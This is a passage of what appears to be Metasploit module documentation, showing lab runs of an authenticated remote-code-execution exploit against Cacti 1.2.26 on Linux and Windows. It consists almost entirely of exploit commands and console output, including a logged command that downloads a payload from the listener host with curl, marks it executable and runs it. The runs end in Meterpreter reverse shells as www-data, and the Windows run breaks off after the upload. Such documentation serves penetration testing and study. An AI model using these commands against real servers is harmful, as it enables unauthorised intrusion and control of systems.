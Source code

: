 ```

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 087c6bbb8c7d
OS          : Linux 087c6bbb8c7d 6.6.22-linuxkit #1 SMP PREEMPT_DYNAMIC Fri Mar 29 12:23:08 UTC 2024 x86_64
Meterpreter : php/linux
```

- Target 1 (Linux Command)
```
msf exploit(multi/http/cacti_package_import_rce) > exploit verbose=true rhosts=127.0.0.1 rport=8080 lhost=192.168.101.1 username=msfuser password=12345678

[*] Command to run on remote host: curl -so ./AynGghlaARy http://192.168.101.1:8080/DETWAARvN-XS_WA2cHnmIg; chmod +x ./AynGghlaARy; ./AynGghlaARy &
[*] Fetch handler listening on 192.168.101.1:8080
[*] HTTP server started
[*] Adding resource /DETWAARvN-XS_WA2cHnmIg
[*] Started reverse TCP handler on 192.168.101.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
[*] Triggering the payload
[*] Client 192.168.101.1 requested /DETWAARvN-XS_WA2cHnmIg
[*] Sending payload to 192.168.101.1 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.101.1
[+] Deleted /var/www/html/cacti/resource/R4imZxgqN.php
[+] Deleted /var/www/html/cacti/resource/AynGghlaARy
[*] Meterpreter session 3 opened (192.168.101.1:4444 -> 192.168.101.1:62224) at 2024-05-22 15:29:31 +0200

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.19.0.3
OS           : Debian 11.5 (Linux 6.6.22-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Cacti version 1.2.26 on Windows Server 2019
- Target 0 (PHP)
```
msf exploit(multi/http/cacti_package_import_rce) > exploit verbose=true rhosts=192.168.101.124 lhost=192.168.101.1 username=msfuser password=12345678

[*] Started reverse TCP handler on 192.168.101.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking Cacti version
[+] The web server is running Cacti version 1.2.26
[*] Attempting login with user `msfuser` and password `12345678`
[+] Logged in
[*] Checking permissions to access `package_import.php`
[+] The target appears to be vulnerable.
[*] Uploading the package
```